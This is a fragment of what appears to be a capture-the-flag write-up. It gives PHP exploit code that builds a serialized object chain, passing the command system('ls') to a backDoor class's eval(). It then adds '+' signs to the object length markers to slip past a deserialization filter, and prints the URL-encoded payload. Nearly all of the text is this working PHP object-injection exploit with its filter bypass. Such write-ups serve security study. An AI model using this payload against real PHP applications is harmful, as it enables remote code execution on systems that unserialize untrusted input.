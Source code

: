 ```php
    public function getInfo(){
        eval($this->code);
    }
}

$a = new GlobalCtfShowUser;
$b = new GlobalBackDoor;
$a->class=$b;

// echo serialize($a) . PHP_EOL;
// O:11:"ctfShowUser":4:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:0;s:5:"class";O:8:"backDoor":1:{s:4:"code";s:13:"system('ls');";}}

$exp = serialize($a);
// O:8:
// O:11:
$exp = str_replace('O:11:','O:+11:',$exp);
$exp = str_replace('O:8:','O:+8:',$exp);

echo $exp . PHP_EOL;
echo urlencode($exp);
```





![](WEBRESOURCE3b4838d0a81c4543aa5f0ed8d85baa2b.png)
